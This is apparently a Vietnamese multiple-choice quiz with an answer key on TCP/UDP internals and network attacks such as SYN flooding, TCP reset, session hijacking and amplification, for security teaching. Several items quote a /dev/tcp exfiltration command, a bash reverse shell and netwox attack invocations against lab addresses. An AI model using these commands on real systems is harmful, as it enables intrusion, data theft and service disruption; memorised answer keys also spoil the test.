    Cổng 0-1023 là well-known ports, được gán cho các dịch vụ hệ thống quan trọng như HTTP (80), HTTPS (443), SSH (22), FTP (20/21).

---

**Câu 3.** Tại sao cần quyền superuser để mở well-known ports (0-1023)?

- A. Vì các cổng này yêu cầu nhiều tài nguyên CPU
- B. Để ngăn tiến trình độc hại giả mạo dịch vụ hệ thống quan trọng
- C. Vì các cổng này được mã hóa bởi hệ điều hành
- D. Để tăng tốc độ kết nối

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Nếu bất kỳ tiến trình nào cũng có thể mở cổng 80, một chương trình độc hại có thể giả mạo web server để đánh cắp thông tin người dùng. Việc yêu cầu quyền root là một lớp bảo vệ.

---

**Câu 4.** Điểm khác biệt chính giữa TCP và UDP về packet boundary là gì?

- A. TCP giữ ranh giới gói tin, UDP không
- B. UDP giữ ranh giới gói tin, TCP là stream-based (không giữ ranh giới)
- C. Cả hai đều giữ ranh giới gói tin
- D. Cả hai đều không giữ ranh giới gói tin

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    TCP là **stream-based**: dữ liệu là một luồng byte liên tục, không có ranh giới rõ ràng giữa các lần ghi. UDP **giữ ranh giới**: mỗi `sendto()` tương ứng với một `recvfrom()`, datagram đến nguyên vẹn.

---

**Câu 5.** UDP header có kích thước bao nhiêu byte?

- A. 4 bytes
- B. 8 bytes
- C. 20 bytes
- D. 32 bytes

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    UDP header gồm 4 trường, mỗi trường 2 bytes: Source Port + Destination Port + Length + Checksum = 8 bytes.

---

**Câu 6.** Trường `Length` trong UDP header có ý nghĩa gì?

- A. Độ dài của phần data (payload) tính bằng byte
- B. Độ dài toàn bộ UDP segment (header + data) tính bằng byte
- C. Số lượng gói tin trong một luồng
- D. Thời gian tồn tại của gói tin

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Trường `Length` trong UDP header chỉ độ dài toàn bộ UDP segment bao gồm cả header (8 bytes) và data.

---

**Câu 7.** Tại sao Netflix và YouTube dùng TCP thay vì UDP dù là ứng dụng streaming?

- A. TCP nhanh hơn UDP
- B. TCP hỗ trợ broadcast
- C. Họ dùng buffering, không cần real-time tuyệt đối, và muốn đảm bảo chất lượng video không có lỗi do mất gói
- D. UDP không hỗ trợ HTTPS

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Netflix/YouTube tải trước (buffer) nội dung. Họ không cần độ trễ thấp tuyệt đối như video call. Dùng TCP đảm bảo mọi byte đến đúng, tránh artifact video do mất gói.

---

**Câu 8.** Trong UDP Ping-Pong Attack, kẻ tấn công cần làm gì để kích hoạt vòng lặp?

- A. Gửi gói tin lớn đến server
- B. Gửi gói UDP giả mạo với source IP và source port là của server thứ nhất, đến server thứ hai
- C. Kết nối trực tiếp vào cả hai server
- D. Chiếm quyền điều khiển một trong hai server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Bằng IP spoofing, kẻ tấn công làm Server B tưởng Server A đã liên lạc với nó. B phản hồi A, A lại phản hồi B, tạo vòng lặp vô tận.

---

**Câu 9.** UDP Amplification Attack khai thác đặc điểm nào của giao thức?

- A. Giao thức trả lời bằng gói tin nhỏ hơn gói yêu cầu
- B. Giao thức trả lời bằng gói tin lớn hơn nhiều so với gói yêu cầu
- C. Giao thức không có cơ chế xác thực
- D. Giao thức sử dụng nhiều CPU

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Amplification ratio = kích thước phản hồi / kích thước yêu cầu. NTP có thể đạt 556.9x, nghĩa là gửi 1 KB yêu cầu có thể nhận về ~557 KB phản hồi đổ vào nạn nhân.

---

**Câu 10.** Giao thức nào có Bandwidth Amplification Factor cao nhất theo bảng trong tài liệu?

- A. DNS
- B. SSDP
- C. NTP
- D. CharGEN

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    NTP (Network Time Protocol) có BAF = 556.9x, cao nhất trong bảng. CharGEN là 358.8x, QOTD là 140.3x, DNS là 28-54x.

---

**Câu 11.** Trường Sequence Number trong TCP header có kích thước bao nhiêu bit?

- A. 16 bit
- B. 24 bit
- C. 32 bit
- D. 64 bit

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sequence Number và Acknowledgment Number đều là 32 bit, cho phép đánh số đến hơn 4 tỷ byte trước khi wrap around.

---

**Câu 12.** Trường Acknowledgment Number trong TCP có giá trị là gì?

- A. Sequence number của gói vừa nhận
- B. Sequence number của byte tiếp theo mà bên gửi mong muốn nhận
- C. Tổng số byte đã nhận
- D. Checksum của gói tin

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ACK number = sequence number tiếp theo mong đợi. Nếu đã nhận đến byte thứ 100, ACK number = 101, nghĩa là "tôi đã nhận đến 100, hãy gửi từ 101 tiếp theo".

---

**Câu 13.** Trường Window trong TCP header dùng để làm gì?

- A. Xác định loại dữ liệu trong payload
- B. Chỉ ra kích thước sliding window cho flow control
- C. Đếm số lần truyền lại
- D. Xác định phiên bản TCP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Window size cho biết bên nhận có thể nhận thêm bao nhiêu byte nữa trước khi cần ACK. Đây là cơ chế **flow control** để tránh làm tràn receive buffer.

---

**Câu 14.** Trong TCP 3-way handshake, gói SYN-ACK được gửi bởi ai?

- A. Client
- B. Server
- C. Router trung gian
- D. Cả client và server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Sau khi nhận SYN từ client, **server** gửi SYN-ACK để xác nhận SYN của client (ACK=x+1) và thông báo ISN của mình (SYN seq=y).

---

**Câu 15.** TCB (Transmission Control Block) được tạo khi nào trong quá trình handshake?

- A. Sau khi gói ACK cuối cùng được nhận
- B. Ngay khi server nhận được gói SYN
- C. Khi client gửi gói SYN đầu tiên
- D. Sau khi dữ liệu đầu tiên được gửi

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Server tạo TCB và lưu vào half-open queue ngay khi nhận SYN. Đây là điểm yếu bị khai thác trong SYN Flood – nếu không bao giờ nhận ACK, TCB nằm trong queue tốn tài nguyên.

---

**Câu 16.** SYN Flooding Attack nhắm vào giới hạn nào của server?

- A. Băng thông mạng
- B. CPU của server
- C. Kích thước của half-open connection queue
- D. Dung lượng ổ cứng

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Tấn công làm đầy **half-open connection queue** (hàng đợi lưu TCB của các kết nối đang ở trạng thái SYN_RECV). Khi queue đầy, server từ chối mọi SYN mới.

---

**Câu 17.** Tại sao SYN Flood Attack cần dùng source IP ngẫu nhiên?

- A. Để tăng tốc độ gửi gói tin
- B. Để tránh bị firewall chặn và ngăn server nhận RST (loại TCB khỏi queue)
- C. Vì TCP yêu cầu source IP ngẫu nhiên
- D. Để bypass encryption

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Hai lý do: (1) Firewall có thể chặn nếu biết IP thật. (2) Nếu SYN-ACK đến máy thật tồn tại, máy đó gửi RST về server, server xóa TCB khỏi queue – tấn công không hiệu quả.

---

**Câu 18.** Lệnh nào dùng để tắt SYN Cookie trong Linux?

- A. `sudo sysctl -w net.ipv4.tcp_syncookies=1`
- B. `sudo sysctl -w net.ipv4.tcp_syncookies=0`
- C. `sudo iptables -D syn_cookies`
- D. `sudo service tcp stop`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `net.ipv4.tcp_syncookies=0` tắt SYN Cookie (để thử nghiệm tấn công). `=1` bật SYN Cookie (biện pháp phòng thủ).

---

**Câu 19.** SYN Cookie hoạt động bằng cách nào?

- A. Mã hóa toàn bộ TCP header
- B. Lưu trữ thêm nhiều TCB trong bộ nhớ
- C. Mã hóa thông tin kết nối thành sequence number, không lưu TCB đến khi handshake hoàn tất
- D. Từ chối tất cả SYN packets khi bị tấn công

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Server tính `H = hash(conn_info, secret_key)`, dùng H làm ISN trong SYN-ACK, **không lưu TCB**. Chỉ khi nhận ACK hợp lệ (ack=H+1), server mới tạo kết nối thực sự.

---

**Câu 20.** Trong TCP Reset Attack, trường nào trong gói RST giả mạo quan trọng nhất để tấn công thành công?

- A. Checksum
- B. Window size
- C. Sequence number (phải nằm trong receive window của nạn nhân)
- D. TTL

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Bên nhận sẽ chấp nhận RST packet chỉ khi **sequence number nằm trong receive window** hiện tại. Sequence number ngoài window sẽ bị bỏ qua.

---

**Câu 21.** Tại sao TCP Reset Attack vẫn hoạt động trên kết nối SSH?

- A. SSH không mã hóa dữ liệu
- B. SSH mã hóa ở tầng Transport, TCP header vẫn là plaintext
- C. SSH sử dụng UDP
- D. SSH không có cơ chế chống RST

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    SSH mã hóa **payload** nhưng TCP header (bao gồm source/dest port, sequence number) vẫn không được mã hóa. Attacker sniff header, tạo gói RST giả mạo – chỉ cần header là đủ.

---

**Câu 22.** Để TCP Reset Attack không thể thực hiện được, mã hóa cần được thực hiện ở tầng nào?

- A. Tầng Application
- B. Tầng Transport
- C. Tầng Network (như IPSec)
- D. Tầng Data Link

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Khi mã hóa ở tầng Network (IPSec), **toàn bộ TCP packet bao gồm header** được mã hóa. Attacker không thể đọc được port number, sequence number → không thể tạo gói giả mạo.

---

**Câu 23.** Trong TCP Session Hijacking, kẻ tấn công cần biết những thông tin gì?

- A. Chỉ cần IP đích
- B. Source IP, Source Port, Dest IP, Dest Port và Sequence Number hợp lệ
- C. Chỉ cần Sequence Number
- D. Username và password của người dùng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Để tạo gói TCP giả mạo hợp lệ, attacker cần biết đủ 4-tuple (src IP, src port, dst IP, dst port) và sequence number nằm trong receive window của server.

---

**Câu 24.** Điều gì xảy ra nếu sequence number trong gói tin hijack bị lệch một lượng δ lớn so với expected?

- A. Server chấp nhận và chèn dữ liệu vào đúng vị trí
- B. Server báo lỗi và đóng kết nối
- C. Gói tin bị loại bỏ vì nằm ngoài receive window
- D. Server gửi lại yêu cầu với sequence number đúng

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Receive window có giới hạn. Nếu sequence number lệch quá nhiều (δ quá lớn), gói tin sẽ **nằm ngoài window** và bị bỏ qua.

---

**Câu 25.** Lệnh `cat /home/seed/secret > /dev/tcp/10.0.2.70/9090` làm gì?

- A. Đọc file secret và lưu vào file local
- B. Đọc nội dung file secret và gửi qua TCP connection đến 10.0.2.70:9090
- C. Mã hóa file secret
- D. Xóa file secret

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `/dev/tcp/IP/PORT` là pseudo-device trong Linux. Khi viết vào nó, kernel tạo TCP connection đến IP:PORT và gửi dữ liệu qua đó. Đây là cách exfiltrate data qua TCP.

---

**Câu 26.** Sau khi TCP Session Hijacking thành công, điều gì xảy ra với kết nối Telnet của người dùng hợp lệ?

- A. Kết nối tiếp tục bình thường
- B. Kết nối bị đóng ngay lập tức bởi server
- C. Kết nối bị đóng băng (deadlock) vì sequence number lệch nhau
- D. Người dùng được thông báo có xâm nhập

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sau khi attacker chèn gói với sequence number mới, server cập nhật trạng thái. Client tiếp tục gửi với sequence number cũ, server coi là duplicate và bỏ qua. Client cũng nhận dữ liệu không khớp. Cả hai rơi vào **deadlock**.

---

**Câu 27.** File descriptor số 0, 1, 2 trong Linux lần lượt là gì?

- A. file, directory, socket
- B. stdin, stdout, stderr
- C. read, write, execute
- D. TCP, UDP, ICMP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    - fd 0: stdin (standard input)
    - fd 1: stdout (standard output)  
    - fd 2: stderr (standard error)

---

**Câu 28.** Trong lệnh reverse shell `/bin/bash -i > /dev/tcp/IP/PORT 2>&1 0<&1`, phần `2>&1` có nghĩa là gì?

- A. Redirect fd 1 đến fd 2
- B. Redirect stderr (fd 2) đến stdout (fd 1), tức là gửi error output qua TCP connection
- C. Tạo hai kết nối TCP
- D. Chạy bash với quyền root

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `2>&1` có nghĩa là fd 2 (stderr) được redirect đến fd 1 (stdout). Vì stdout đã được redirect đến TCP connection, stderr cũng được gửi về attacker.

---

**Câu 29.** Trong lệnh reverse shell `/bin/bash -i > /dev/tcp/IP/PORT 2>&1 0<&1`, phần `0<&1` có nghĩa là gì?

- A. Stdin (fd 0) đọc từ stdout (fd 1), tức là nhận lệnh từ TCP connection
- B. Đóng stdin
- C. Tạo pipe giữa hai tiến trình
- D. Chạy bash lần thứ hai

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    `0<&1` redirect fd 0 (stdin) để đọc từ fd 1 (stdout). Vì stdout đã kết nối với TCP, bash nhận input từ TCP connection – tức là attacker có thể gõ lệnh từ xa.

---

**Câu 30.** Reverse shell khác gì so với Session Hijacking thông thường?

- A. Reverse shell an toàn hơn
- B. Reverse shell cho phép tương tác liên tục, chạy nhiều lệnh, còn hijacking đơn giản chỉ chèn được một lệnh
- C. Reverse shell chỉ hoạt động với FTP
- D. Không có sự khác biệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Session hijacking thông thường chỉ chèn được một đoạn lệnh vào session. Reverse shell thiết lập một kênh tương tác liên tục, attacker có thể gõ lệnh tùy ý như đang ngồi trực tiếp trên máy nạn nhân.

---

**Câu 31.** Công cụ `nc` (netcat) trong bài được dùng để làm gì?

- A. Scan port
- B. Mở listener TCP để nhận kết nối từ reverse shell
- C. Gửi gói UDP
- D. Tạo gói IP giả mạo

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `nc -lv 9090` (hoặc `nc -l 9090`) mở một TCP listener trên port 9090. Khi reverse shell kết nối vào, attacker có thể gõ lệnh qua terminal nc và nhận output.

---

**Câu 32.** Lệnh `netstat -tna` dùng để làm gì trong ngữ cảnh bài học?

- A. Tắt tất cả kết nối mạng
- B. Hiển thị trạng thái tất cả kết nối TCP, hữu ích để quan sát trạng thái SYN_RECV trong SYN Flood
- C. Gửi gói test đến server
- D. Cấu hình firewall

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `netstat -tna` hiển thị tất cả kết nối TCP (t), không phân giải tên (n), bao gồm server đang lắng nghe (a). Trong SYN Flood, thấy hàng loạt kết nối ở trạng thái `SYN_RECV` với IP ngẫu nhiên.

---

**Câu 33.** Trong TCP header, trường Header Length được đo theo đơn vị gì?

- A. Bytes
- B. Bits
- C. 32-bit words (nhân 4 để ra số byte)
- D. Kilobytes

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Header Length (4 bit) đo bằng số lượng **32-bit word**. TCP header tối thiểu = 5 words = 20 bytes. Nhân giá trị trong trường với 4 để ra số byte thực tế.

---

**Câu 34.** Cờ (flag) RST trong TCP header được dùng khi nào?

- A. Bắt đầu một kết nối mới
- B. Kết thúc kết nối một cách bình thường
- C. Lập tức ngắt kết nối bất thường, không cần handshake kết thúc
- D. Báo hiệu dữ liệu khẩn cấp

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    RST (Reset) được dùng để lập tức đóng kết nối mà không cần quá trình FIN/ACK 4-bước. Nó cũng được gửi khi một máy nhận được segment cho một kết nối không tồn tại.

---

**Câu 35.** Trong demultiplexing của TCP, 4-tuple được dùng để định danh kết nối gồm những gì?

- A. Source IP + Destination IP
- B. Source Port + Destination Port
- C. Source IP + Source Port + Destination IP + Destination Port
- D. Sequence Number + Acknowledgment Number

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    TCP dùng **4-tuple** (src IP, src port, dst IP, dst port) để định danh duy nhất một kết nối. Điều này cho phép nhiều client từ cùng một IP kết nối đến cùng server:port mà không bị nhầm lẫn.

---

**Câu 36.** Trong demultiplexing của UDP, bao nhiêu thông tin được dùng để định tuyến datagram đến đúng socket?

- A. 4-tuple (src IP, src port, dst IP, dst port)
- B. Chỉ cần destination port
- C. Destination IP + Destination Port (2-tuple)
- D. Chỉ cần destination IP

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    UDP demultiplexing dùng **(dst IP, dst port)** để định tuyến. Nhiều client với các src IP/port khác nhau đến cùng một dst IP:port đều được xử lý bởi **cùng một socket** trên server.

---

**Câu 37.** Hàm `listen(sockfd, 5)` với tham số thứ hai là 5 có nghĩa là gì?

- A. Server chỉ chấp nhận tối đa 5 kết nối đồng thời
- B. Queue lưu các kết nối đã thiết lập (ESTABLISHED) có tối đa 5 slot
- C. Tối đa 5 kết nối có thể được lưu trong hàng đợi chờ xử lý (backlog queue)
- D. Timeout sau 5 giây nếu không có kết nối

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Tham số thứ hai của `listen()` là **backlog** – số lượng kết nối đã hoàn thành 3-way handshake nhưng chưa được `accept()` xử lý. Nếu đầy, SYN mới sẽ bị từ chối.

---

**Câu 38.** Khi dùng `fork()` trong TCP server, tiến trình cha làm gì?

- A. Xử lý kết nối của client
- B. Đóng sockfd gốc và thoát
- C. Đóng newsockfd (kết nối với client) và tiếp tục chờ kết nối mới với `accept()`
- D. Gửi dữ liệu cho client

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sau `fork()`: **tiến trình cha** đóng `newsockfd` (không cần nữa) và quay lại `accept()` để chờ client mới. **Tiến trình con** đóng `sockfd` (không cần listen) và xử lý kết nối với client.

---

**Câu 39.** Công cụ Scapy trong Python được dùng chủ yếu để làm gì trong bài học này?

- A. Xây dựng web server
- B. Tạo và gửi các gói mạng tùy chỉnh (packet crafting), bao gồm cả packet giả mạo
- C. Phân tích log hệ thống
- D. Mã hóa dữ liệu

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Scapy là thư viện Python mạnh mẽ cho phép tạo, gửi, nhận và phân tích gói mạng ở mức thấp. Trong bài, nó được dùng để tạo gói SYN giả mạo (SYN Flood), gói RST (Reset Attack), và gói hijack (Session Hijacking).

---

**Câu 40.** Netwox tool 76 được dùng để tấn công loại nào?

- A. TCP Reset Attack
- B. SYN Flooding Attack
- C. Session Hijacking
- D. DNS Spoofing

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `netwox 76` là công cụ SYN Flood, với các tham số `-i` (destination IP), `-p` (destination port), `-s` (spoof type). Ví dụ: `sudo netwox 76 -i 10.102.20.178 -p 23 -s raw`.

---

**Câu 41.** Netwox tool 78 được dùng để tấn công loại nào?

- A. SYN Flooding
- B. UDP Amplification
- C. TCP Reset Attack (reset mọi packet từ/đến một IP)
- D. ARP Spoofing

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `netwox 78` tự động gửi gói RST cho mỗi packet phù hợp với filter. Ví dụ: `sudo netwox 78 --filter "src host 10.0.2.18"` sẽ reset mọi kết nối từ IP đó.

---

**Câu 42.** Tại sao TCP Reset Attack trên video streaming khó hơn trên Telnet?

- A. Video streaming dùng UDP
- B. Video streaming được mã hóa hoàn toàn
- C. Sequence number trong streaming tăng rất nhanh (lượng dữ liệu lớn), khó bắt kịp
- D. Video streaming dùng port khác

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Trong Telnet, người dùng gõ từng ký tự, sequence number tăng chậm. Trong video streaming, hàng trăm KB/MB dữ liệu được truyền mỗi giây, sequence number thay đổi rất nhanh, cần cập nhật liên tục để RST hợp lệ.

---

**Câu 43.** Biện pháp nào KHÔNG hiệu quả chống lại local attacks (kẻ tấn công trong cùng mạng)?

- A. Mã hóa dữ liệu
- B. Ngẫu nhiên hóa source port
- C. Ngẫu nhiên hóa Initial Sequence Number
- D. Cả B và C

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Ngẫu nhiên hóa source port và ISN chỉ ngăn attacker **đoán** thông tin. Nếu attacker **trong cùng mạng**, họ có thể **sniff trực tiếp** các giá trị thực, nên ngẫu nhiên hóa không còn hiệu quả.

---

**Câu 44.** Urgent Pointer trong TCP header có tác dụng gì?

- A. Chỉ ra port của dịch vụ khẩn cấp
- B. Khi URG được set, chỉ ra điểm kết thúc của urgent data; urgent data được giao ngay cho ứng dụng
- C. Tăng tốc độ truyền khi mạng tắc nghẽn
- D. Đánh dấu gói tin cần mã hóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi cờ URG được set, Urgent Pointer chỉ ra offset từ sequence number đến điểm kết thúc urgent data. Urgent data **không chờ trong receive buffer** mà được đưa lên ứng dụng ngay lập tức.

---

**Câu 45.** SOCK_STREAM và SOCK_DGRAM lần lượt tương ứng với giao thức nào?

- A. UDP và TCP
- B. TCP và UDP
- C. TCP và ICMP
- D. HTTP và HTTPS

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `SOCK_STREAM` = TCP (stream-based, reliable), `SOCK_DGRAM` = UDP (datagram-based, unreliable). Đây là hằng số khi tạo socket trong lập trình mạng.

---

**Câu 46.** Khi nhận gói SYN, server ở trạng thái nào?

- A. LISTEN
- B. ESTABLISHED
- C. SYN_RECV
- D. CLOSE_WAIT

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Sau khi gửi SYN-ACK, server chuyển sang trạng thái **SYN_RECV** (half-open connection), chờ ACK từ client. Khi nhận ACK, chuyển sang ESTABLISHED.

---

**Câu 47.** Để bảo vệ chống Session Hijacking, giải pháp căn bản nhất là gì?

- A. Tăng sequence number
- B. Dùng UDP thay TCP
- C. Mã hóa toàn bộ payload để attacker không thể đọc/tái tạo session
- D. Đổi port thường xuyên

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Dù attacker biết sequence number, nếu payload được mã hóa (ví dụ TLS), attacker không thể tạo ra payload hợp lệ (vì không có encryption key). Đây là lý do SSH, HTTPS... kháng Session Hijacking tốt hơn Telnet, HTTP.

---

**Câu 48.** Trong SYN Cookie, điều gì xảy ra nếu client là attacker (không gửi ACK)?

- A. Server lưu TCB trong queue vĩnh viễn
- B. Server không lưu bất kỳ thông tin nào vì không có TCB, không tốn tài nguyên
- C. Server gửi RST cho attacker
- D. Server bị crash

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đây chính là ưu điểm của SYN Cookie: vì server **không lưu TCB** sau SYN, attacker không thể làm cạn tài nguyên. Nếu ACK không đến, server chỉ gửi SYN-ACK rồi thôi, không có gì để dọn dẹp.

---

**Câu 49.** Trường Options trong TCP header có kích thước tối đa là bao nhiêu?

- A. 32 bits
- B. 64 bits
- C. 160 bits
- D. 320 bits

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Trường Options có thể từ 0 đến **320 bits** (40 bytes), phải chia hết cho 32. Tổng TCP header tối đa = 20 bytes (fixed) + 40 bytes (options) = 60 bytes.

---

**Câu 50.** The Mitnick Attack (1994) kết hợp những kỹ thuật nào?

- A. Chỉ dùng SYN Flood
- B. IP Spoofing + TCP Sequence Number Prediction + SYN Flooding (vô hiệu hóa trusted host) + Session Hijacking
- C. DNS Spoofing + ARP Poisoning
- D. Brute force password + SQL Injection

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Kevin Mitnick khai thác **trust relationship** (rsh/rlogin): dùng SYN Flood để vô hiệu hóa trusted host Y, sau đó giả mạo IP của Y (IP Spoofing) và đoán sequence number (ISN Prediction) để thiết lập kết nối giả mạo với server nạn nhân X, cuối cùng thực thi lệnh qua session hijacking.

---

**Câu 51.** Hàm `bind()` trong lập trình socket TCP server có nhiệm vụ gì?

- A. Tạo socket mới
- B. Đăng ký port với hệ điều hành để OS biết packet đến port đó thì chuyển cho ứng dụng nào
- C. Kết nối đến server từ xa
- D. Gửi dữ liệu

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `bind()` gắn socket với một địa chỉ IP và port cụ thể trên máy cục bộ. Từ đây, OS biết rằng mọi packet đến port đó phải được chuyển đến socket này.

---

**Câu 52.** `/dev/tcp/IP/PORT` trong Linux là gì?

- A. File cấu hình TCP
- B. Pseudo-device file: khi viết vào, kernel tạo TCP connection đến IP:PORT và gửi dữ liệu
- C. Log file của TCP stack
- D. File socket của web server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Trong bash, `/dev/tcp/host/port` là **pseudo-device** (không phải file thật). Khi redirect output đến nó (`> /dev/tcp/IP/PORT`), bash/kernel tạo TCP connection và gửi dữ liệu. Đây là cách thường dùng trong reverse shell và data exfiltration.

---

**Câu 53.** Tùy chọn `-i` trong lệnh `/bin/bash -i` có ý nghĩa gì?

- A. Invisible mode (ẩn danh)
- B. Interactive mode (chế độ tương tác, đọc/ghi terminal)
- C. Install mode
- D. Input redirect

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `-i` (interactive) làm cho bash hoạt động như đang kết nối với terminal thật, hiển thị prompt, xử lý signal đúng cách. Trong reverse shell, điều này cần thiết để shell có thể nhận lệnh tương tác.

---

**Câu 54.** Khi server nhận gói SYN-ACK trong 3-way handshake, điều gì xảy ra nếu ACK không bao giờ đến?

- A. Server ngay lập tức xóa TCB
- B. Server gửi lại SYN-ACK nhiều lần, sau đó xóa TCB sau timeout
- C. Server gửi RST cho client
- D. Kết nối được chuyển thành ESTABLISHED

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Server sẽ **retransmit SYN-ACK** một số lần theo exponential backoff, sau đó **timeout** và xóa TCB. Thời gian giữ TCB trong queue là điểm yếu bị khai thác trong SYN Flood.

---

**Câu 55.** Trong TCP Session Hijacking, tại sao kết nối của người dùng hợp lệ bị đóng băng sau khi attacker chèn gói tin?

- A. Server phát hiện tấn công và đóng kết nối
- B. Client và server có sequence number lệch nhau: server đã advance sequence number do nhận payload của attacker, nhưng client vẫn dùng sequence number cũ
- C. Attacker gửi FIN packet
- D. Mất điện đột ngột

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Sau khi server nhận và xử lý payload của attacker (ví dụ 8 bytes lệnh), server expect sequence number tiếp theo = x + 8. Client không biết chuyện này, tiếp tục gửi với sequence number x+1. Server coi gói client là duplicate/out-of-order, bỏ qua. Client không nhận ACK từ server, cũng không hiểu phản hồi. **Deadlock**.
